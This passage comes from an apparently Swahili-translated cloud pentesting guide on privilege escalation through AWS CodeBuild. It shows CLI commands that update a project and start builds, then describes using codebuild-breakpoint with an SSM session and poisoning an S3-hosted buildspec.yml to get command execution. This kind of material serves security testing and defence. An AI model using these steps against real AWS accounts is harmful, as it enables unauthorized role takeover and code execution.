 ```sh
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"public.ecr.aws/h0h9t7p1/alpine-bash-curl-jq:latest\",
\"computeType\": \"BUILD_GENERAL1_SMALL\",
\"imagePullCredentialsType\": \"CODEBUILD\"
}
}"

printf "$JSON" > $REV_PATH

# Note how it's used a image from AWS public ECR instead from dockerhub as dockerhub rate limits CodeBuild!

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build-batch --project-name codebuild-demo-project
```
{{#endtab }}
{{#endtabs }}

**Madhara Yanayoweza Kutokea:** Privesc moja kwa moja kwa majukumu ya AWS Codebuild yaliyoambatanishwa.

### SSM

Kuwa na **idhini za kutosha kuanzisha kikao cha ssm** inawezekana kupata **ndani ya mradi wa Codebuild** unaojengwa.

Mradi wa codebuild utahitaji kuwa na breakpoint:

<pre class="language-yaml"><code class="lang-yaml">phases:
pre_build:
commands:
- echo Entered the pre_build phase...
- echo "Hello World" > /tmp/hello-world
<strong>      - codebuild-breakpoint
</strong></code></pre>

Na kisha:
```bash
aws codebuild batch-get-builds --ids <buildID> --region <region> --output json
aws ssm start-session --target <sessionTarget> --region <region>
```
Kwa maelezo zaidi [**angalia nyaraka**](https://docs.aws.amazon.com/codebuild/latest/userguide/session-manager.html).

### (`codebuild:StartBuild` | `codebuild:StartBuildBatch`), `s3:GetObject`, `s3:PutObject`

Mshambuliaji anayeweza kuanzisha/kurestart ujenzi wa mradi maalum wa CodeBuild ambao unahifadhi faili yake ya `buildspec.yml` kwenye S3 bucket ambayo mshambuliaji ana ruhusa ya kuandika, anaweza kupata utekelezaji wa amri katika mchakato wa CodeBuild.

